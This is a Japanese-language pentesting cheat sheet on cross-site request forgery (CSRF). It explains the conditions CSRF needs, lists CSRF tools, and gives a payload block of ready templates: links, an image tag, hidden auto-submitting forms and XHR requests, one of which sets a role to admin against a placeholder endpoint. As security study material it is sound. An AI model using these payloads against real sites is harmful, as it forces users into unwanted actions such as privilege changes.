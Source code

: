 ## 前提知識

---
## 脆弱性の説明
CSRFは、攻撃者がユーザに意図しない操作を実行させることを可能にする脆弱性。

- **CSRFの条件**
	- 関連するアクション
		- 攻撃者は、アプリケーション内で何らかのアクションを誘発する必要がある。代表的なのは、パスワード変更。
	- Cookieベースのセッション処理
		- CSRF Tokenだったり、類似の目的で使わるものがないこと。
	- 予測不可能なリクエストパラメータ
		- アクションを実行するリクエストに予測不可能なパラメータが含まれないこと。

---
## 悪用方法の説明

---
# # Tools
- https://github.com/0xInfection/XSRFProbe
- https://github.com/0xInfection/CSRFPocGenerator.git

# # 簡単な攻撃
```payload
# HTML GET
<a href=”http://vulnerable/endpoint?parameter=CSRFd">Click</a>

# HTML GET (no interaction)
<img src=”http://vulnerable/endpoint?parameter=CSRFd">

# HTML POST:
<form action="http://vulnerable/endpoint" method="POST">
<input name="parameter" type="hidden" value="CSRFd" />
<input type="submit" value="Submit Request" />
</form>

# HTML POST (no interaction)
<form id="autosubmit" action="http://vulnerable/endpoint" method="POST">
<input name="parameter" type="hidden" value="CSRFd" />
<input type="submit" value="Submit Request" />
</form>
<script>
document.getElementById("autosubmit").submit();
</script>

# JSON GET:
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://vulnerable/endpoint");
xhr.send();
</script>

# JSON POST
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://vulnerable/endpoint");
xhr.setRequestHeader("Content-Type", "text/plain");
xhr.send('{"role":admin}');
</script>
```
---
## 参考文献
- https://github.com/six2dez/pentest-book/blob/master/enumeration/web/csrf.md